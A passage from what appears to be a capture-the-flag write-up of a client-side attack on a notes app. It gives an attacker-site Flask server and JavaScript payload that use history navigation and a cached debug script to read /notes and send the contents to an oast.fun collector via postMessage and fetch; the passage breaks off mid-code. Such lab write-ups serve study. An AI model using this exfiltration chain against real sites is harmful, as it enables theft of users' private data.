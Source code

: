 attacker.com does the following when a postMessage is received:
sends the contents recieved to <*.oast.fun> via fetch api. (you will see cors error here, but the request is send, cors just prevents us from accessing the response)
	

attacker.com/go-back executes the following js code when visited:
history.go(-3);
	
this triggers the cached response (when visiting step 7) for the <note-id-2> which contains a script tag with src pointing to 
 http://127.0.0.1/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/<note-id-1>
	
<note-id-1> contains the js code to fetch http://127.0.0.1:80/notes and return the contents of the fetch request to the opener (attacker.com) via postMessage.

	
**Code for attacker.com:**
Forgive my f-string shenanigans.

```
from flask import Flask, request
import os

app = Flask(__name__)
BASE_URL = "http://127.0.0.1:80"
DEBUG_URL = "debug/52abd8b5-3add-4866-92fc-75d2b1ec1938"
exfil_server = "https://cfyrfan2vtc0000a195gg89c8icyyyyyb.oast.fun"

payload = """
const exec_payload = async function() {
"""+f"""
    var the_fetcher = await fetch('{BASE_URL}/notes');
    var the_contents = await the_fetcher.text();
    window.opener.postMessage(the_contents, '*');
"""+"""
};
exec_payload();
"""

@app.route("/gen_payload")
def start_page():
    return f"""
        <!DOCTYPE HTML>
        <html>
            <body>
                {payload}
                <form method='GET' action='/gen_payload_step1'>
                    <input type='text' name='payload_id' autocomplete='off'/>
                    <input type='submit' value='submit'/>
                </form>
            </body>
        </html>
    """

@app.route("/gen_payload_step1")
def step1():
    payload_id = request.args.get('payload_id')
    os.environ["payload_id"] = payload_id
    payload_host = f"&lt;script src='{BASE_URL}/{DEBUG_URL}/{payload_id}'>&lt;/script>"
    return f"""
        <!DOCTYPE HTML>
        <html>
            <body>
                {payload_host}
                <form method='GET' action='/attack'>
                    <input type='text' name='payload_host_id' value='' autocomplete='off'/>
                    <input type='submit' value='submit'/>
```